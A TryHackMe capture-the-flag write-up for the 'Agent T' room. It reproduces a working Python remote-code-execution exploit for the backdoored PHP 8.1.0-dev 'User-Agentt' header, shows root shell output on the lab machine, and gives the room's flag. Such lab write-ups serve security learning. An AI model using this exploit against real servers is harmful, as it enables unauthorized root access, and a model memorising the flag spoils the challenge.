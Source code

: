 ## Agent T - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/agentt)

<i>Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.</i>

**IP: 10.10.131.19**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Web <br>

**Tools Used**: Burp Suite<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🌐 Web Exploitation 

- I found nothing with Burp, nor in the app, nor in the source code so I pivoted to looking for exploits. I found this [exploit](https://www.exploit-db.com/exploits/49933) for `PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution`.

  ```
  #!/usr/bin/env python3
  import os
  import re
  import requests
  
  host = input("Enter the full host url:\n")
  request = requests.Session()
  response = request.get(host)
  
  if str(response) == '<Response [200]>':
      print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
      try:
          while 1:
              cmd = input("$ ")
              headers = {
              "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
              "User-Agentt": "zerodiumsystem('" + cmd + "');"
              }
              response = request.get(host, headers = headers, allow_redirects = False)
              current_page = response.text
              stdout = current_page.split('<!DOCTYPE html>',1)
              text = print(stdout[0])
      except KeyboardInterrupt:
          print("Exiting...")
          exit
  
  else:
      print("\r")
      print(response)
      print("Host is not available, aborting...")
      exit
  ```
  
- Simply, just run the exploit and read the flag.

  ```
  python3 exploit.py                                                          
  Enter the full host url:
  http://10.10.131.19/
  
  Interactive shell is opened on http://10.10.131.19/ 
  Can't acces tty; job crontol turned off.
  $ whoami
  root
  
  $ id
  uid=0(root) gid=0(root) groups=0(root)
  
  $ pwd
  /var/www/html
  
  $ ls -al
  total 760
  drwxr-xr-x 1 root root   4096 Mar  7  2022 .
  drwxr-xr-x 1 root root   4096 Mar 30  2021 ..
  -rw-rw-r-- 1 root root    199 Mar  5  2022 .travis.yml
  -rw-rw-r-- 1 root root  22113 Mar  5  2022 404.html
  -rw-rw-r-- 1 root root  21756 Mar  5  2022 blank.html
  drwxrwxr-x 2 root root   4096 Mar  5  2022 css
  -rw-rw-r-- 1 root root   3784 Mar  5  2022 gulpfile.js
  drwxrwxr-x 2 root root   4096 Mar  5  2022 img
  -rw-rw-r-- 1 root root  42145 Mar  7  2022 index.php
  drwxrwxr-x 3 root root   4096 Mar  5  2022 js
  -rw-rw-r-- 1 root root 642222 Mar  5  2022 package-lock.json
  -rw-rw-r-- 1 root root   1493 Mar  5  2022 package.json
  drwxrwxr-x 4 root root   4096 Mar  5  2022 scss
  drwxrwxr-x 8 root root   4096 Mar  5  2022 vendor
  
  $ find / -name flag.txt 2>/dev/null
  /flag.txt
  
  $ cat /flag.txt 
  flag{4127d0530abf16d6d23973e3df8dbecb}
  ```

---

## 🏁 Flags

- **Flag**: `flag{4127d0530abf16d6d23973e3df8dbecb}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing.`

- What did I learn?
  `Found a new exploit.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
